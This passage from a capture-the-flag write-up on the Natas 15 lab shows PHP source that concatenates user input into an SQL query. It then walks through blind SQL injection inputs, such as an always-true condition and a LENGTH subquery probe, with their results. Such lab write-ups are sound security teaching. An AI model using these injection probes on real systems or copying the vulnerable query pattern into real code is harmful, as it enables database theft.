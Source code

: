 ```markup
    mysql_select_db('natas15', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

blind sql injection

```text
Input  : natas16  
Query  : SELECT * from users where username="natas16"  
Result : true
```

```text
Input  : natas16" AND "1"="1  
Query  : SELECT * from users where username="natas16" AND "1"="1"  
Result : true
```

A good next thing to know whould be the password lenght. Lets first test the username lenght.

Testing username lenght  
We should get a 'This user exists.' if the lenght of username is 7.

```text
input  : natas16" AND (SELECT LENGTH(username) FROM users WHERE username="natas16" LIMIT 1)=1#   
Query  : SELECT * from users where username="natas16" AND (SELECT LENGTH(username) FROM users WHERE username="natas16" LIMIT 1)=1#  
Result : false
```
